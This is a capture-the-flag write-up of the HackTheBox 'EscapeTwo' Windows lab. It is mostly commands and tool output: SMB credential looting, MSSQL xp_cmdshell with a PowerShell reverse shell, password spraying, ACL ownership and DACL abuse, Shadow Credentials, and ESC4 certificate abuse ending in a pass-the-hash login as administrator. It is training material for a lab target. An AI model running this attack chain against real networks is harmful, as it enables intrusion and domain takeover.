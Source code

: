 ```yaml
---
title: HTB Escape Two - Writeup
description: Easy Windows Machine
date: 2025-03-17
image: cover.png
categories:
  - Writeups
tags:
  - HTB
  - Easy
  - Windows
---
```


### Enumeration
Let's start with a scan to all ports:
```sh
sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.51 -oG allPorts
```
![Image 1](1.png)

once it's finished, grep the ports and copy them to later scan them with nmap looking out for the versions of the services hosted.
```sh
 sudo nmap -sC -sV -p<ports> <ip> -oN targeted
```
![Image 2](2.png)

Add the domains from the scan to your /etc/hosts file
```sh
10.10.11.51     DC01.sequel.htb sequel.htb
```

Well, taking a look at smb with smbclient using the credentials that HackTheBox gives us we can see the share names for this domain
```sh
smbclient -L 10.10.11.51 -U 'rose'
```
![Image 3](3.png)

There's a share called Accounting Department, list the contents of it

```sh
smbclient //10.10.11.51/Accounting\ Department -U 'rose'
```
we can download the files hosted there
```sh
get accounts.xlsx
get accounting_2024.xlsx
```
![Image 4](4.png)

You can see the contents of the accounts.xlsx file with https://jumpshare.com/viewer/xlsx

![Image 6](6.png)


### User Flag

```sh
netexec mssql 10.10.11.51 -u sa -p <password> --local-auth -M mssql_priv
```
Now we've found another user (sa) to continue enumerating 

![Image 8](8.png)

It's a sysadmin, so we can get a reverse shell with xp_cmdshell in mssql, login to it using impacket mssqlclient

```sh
mssqlclient.py sa@10.10.11.51
```

Enable xp_cmdshell with:
```
sp_configure 'show advanced options', 1;
RECONFIGURE;

sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

```
Now execute the powershell reverse shell encoded in base64 with this, you can use https://www.revshells.com/:
```
EXEC xp_cmdshell 'powershell -e [base64ReverseShell]'
```
![Reverse Shell](9.png)

Let's start enumerating this machine, we can see a SQL2019 folder

![Contents of C folder](10.png)

there's a file with credentials in ExpressAdv_ENU

```sh
cat sql-Configuration.INI
```
Create a list with all the users and passwords you've found to do a password spraying attack and find any reused passwords

```sh
netexec smb 10.10.11.51 -u users.txt -p passwords.txt --continue-on-success
```
![Reused password](11.png)

ryan and sql_svc have the same password, so we can login to ryan using evilwinrm

```sh
evil-winrm -i 10.10.11.51 -u ryan -p <password>
```
Now you can get the user flag
![User Flag](12.png)

### Root Flag
Using Bloodhound community edition we can find a path to Administrator using the credentials of ryan

![Write Owner](19.png)

Set the owner of the ca_svc account to ryan

```sh
impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!

```

Grant Full Control Rights to ryan using DACL (Discretionary Access Control List) to escalate privileges

```sh
impacket-dacledit -action write -rights FullControl -principal ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3
[*] DACL backed up to dacledit-20250330-161623.bak
[*] DACL modified successfully!

```

Shadow Credentials attack
```sh
certipy-ad shadow auto -u 'ryan@sequel.htb' -p 'WqSZAF6CysDQbGb3' -account ca_svc -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'ed99220f-857c-1616-06bc-e50d6900d173'
[*] Adding Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'ed99220f-857c-1616-06bc-e50d6900d173' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce

```

Find a vulnerable template with the hash of the ca_svc account
```sh
certipy-ad find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vulnerable
```
![Vulnerable Cert](16.png)

Now upload the certificate template
```sh
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
```
![Cert Uploaded](17.png)

Get the Admin Cert
```sh
certipy-ad req -u ca_svc -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'sequel.htb' at '10.10.11.51'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.51[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 22
[*] Got certificate with multiple identifications
    UPN: 'administrator@sequel.htb'
    DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```
Now get the admin hash using the cert
```sh
certipy-ad auth -pfx administrator_10.pfx  -domain sequel.htb

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': xxxxxx:xxxx
```

Login as Admin and you got the root flag
```sh
evil-winrm -i 10.10.11.51 -u "administrator" -H "xxxxxxx"
```

![Admin Flag](18.png)
### Conclusion 
This machine covers topics like SMB shares leaks, MSSQL RCE, ESC4 Certificate Attack, Shadow Credentials Attack, weak ACLs and AD CS misconfigurations

<mark>Hope you enjoy it and Happy Hacking!</mark>

